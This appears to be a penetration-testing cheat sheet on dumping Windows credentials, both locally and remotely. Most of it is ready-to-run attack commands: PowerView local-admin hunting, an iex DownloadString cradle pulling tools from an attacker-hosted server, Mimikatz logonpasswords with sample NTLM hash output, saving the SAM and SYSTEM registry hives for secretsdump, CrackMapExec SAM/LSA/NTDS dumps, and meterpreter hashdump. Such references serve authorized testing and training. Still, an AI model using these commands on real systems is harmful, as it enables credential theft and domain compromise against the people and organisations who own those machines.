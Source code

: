 # Dumping credentials

## Locally

### Get NTML w/ Mimikatz

{% content-ref url="../../../tools/tools/mimikatz.md" %}
[mimikatz.md](../../../tools/tools/mimikatz.md)
{% endcontent-ref %}

#### Target preparation&#x20;

The primary thing to do is to look a PC where we are Local admin or have some privilege. Once we find the computer, we connect to it.

```powershell
powershell -ep bypass
. .\PowerView.ps1

Get-Domain
Find-LocalAdminAccess # find access where we are local admin

# connect in those pc 
Enter-PSSession $LOCAL_ADMIN_SYSTEM # (ex. seclogs.research.DOMAIN.local)
```

Now, check the privilege that we have in the machine with this command:

```powershell
whoami /all
```

Then, we need to transfer the tool to get NTML hashes to the target machine.

{% code title="Linux -> Windows Target" %}
```bash
# into linux
python3 -m http.server 80 

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

{% code title="Windows -> Windows Target" %}
```powershell
# Start a HTTP File Server (HFS) into a Windows machine with .exe
# https://www.rejetto.com/hfs/

# Download files from windows target
iex (New-Object Net.WebClient).DownloadString('http://$IP/$FILE_NAME')
```
{% endcode %}

#### mimikatz.exe

```powershell
PS> .\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"

# output
Authentication Id : 0 ; 302247 (00000000:00049ca7)
Session : UndefinedLogonType from 0
User Name : Alice
Domain : DOMAIN
Logon Server : DC1
Logon Time : 12/01/2023 15:13:19
SID : S-1-5-21-3501040295-3816137123-30697657-1109
msv :
[00000003] Primary
* Username : Alice
* Domain : DOMAIN
* NTLM : a0c8746a6efc7782c7c19c55185145be
```

#### Invoke-Mimikatz.ps1

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords"'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

#### CrackMapExec

```bash
crackmapexec smb <IP> -u USER -p PASSWORD -M mimikatz
```





### Stealing SAM & SYSTEM

The easiest way to steal those files is to get a copy from the registry:

```powershell
reg save HKLM\sam sam
reg save HKLM\system system
reg save HKLM\security security
```

**Download** those files to your Kali machine and **extract the hashes** using:

```bash
samdump2 SYSTEM SAM
impacket-secretsdump -sam sam -security security -system system LOCAL
```

## Remotely

Sections below allow us to dump credentials from Kali linux to Windows target.

### CrackMapExec

#### Dump SAM <a href="#dump-sam-hashes" id="dump-sam-hashes"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

#### Dump LSA <a href="#dump-lsa-secrets" id="dump-lsa-secrets"></a>

```bash
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

#### Dump NTDS <a href="#dump-the-ntdsdit-from-target-dc" id="dump-the-ntdsdit-from-target-dc"></a>

```bash
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```



### Metasploit

If we have a open meterpreter session&#x20;

```bash
msf> hashdump
```







